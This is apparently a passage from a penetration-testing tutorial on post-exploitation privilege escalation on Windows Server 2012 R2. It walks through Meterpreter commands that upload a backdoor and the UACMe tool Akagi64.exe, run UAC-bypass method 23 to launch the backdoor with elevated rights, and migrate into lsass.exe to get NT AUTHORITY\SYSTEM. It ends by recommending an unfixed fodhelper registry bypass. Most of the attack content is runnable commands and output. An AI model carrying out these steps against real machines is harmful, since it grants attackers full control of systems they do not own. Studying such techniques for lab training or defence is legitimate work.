 If we want to execute backdoor.exe with administrative privileges, we will not able to do it because UAC will prevent us from doing that. In order to bypass UAC on this particular version of Windows, we will be using method 23 or key 23 rather, which takes advantage of package manager on Windows.

```
meterpreter > pwd
C:\Windows\system32
meterpreter > getprivs
meterpreter > cd C:\\
meterpreter > mkdir Temp
meterpreter > cd Temp
meterpreter > upload backdoor.exe
meterpreter > upload /root/Desktop/tools/UACMe/Akagi64.exe
meterpreter > shell
C:\Temp>dir
```

This would bypass UAC and backdoor.exe should be executed with elevated privileges or administrative privileges, and because it is a meterpreter payload, we should receive the elevated meterpreter session on our listener.

```
C:\Temp>.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

If we list out the process tree here, we can migrate to any other process here that have `NT AUTHORITY\SYSTEM` privileges. Because we are privileged, we can migrate to any of the services. For example, I can migrate to lsass.exe service here, that currently has `NT AUTHORITY\SYSTEM` privilege. 

```
Sending stage
Meterpreter session 1 opened

meterpreter > sysinfo
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs
meterpreter > ps
```

Migrate to 688, that provides us with 64 bit meterpreter session. We successfullt been able to elevated our privileges by bypassing UAC. In this case by bypassing UAC on Windows 2012 R2.

```
meterpreter > migrate 688
meterpreter > sysinfo
Meterpreter :   x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Recommanded:

```
33. Author: winscripting.blog
Type: Shell API
Method: Registry key manipulation
Target(s): \system32\fodhelper.exe
Component(s): Attacker defined
Implementation: ucmShellRegModMethod
Works from: Windows 10 TH1 (10240)
Fixed in: unfixed 🙈
How: -
Code status: added in v2.7.2
```
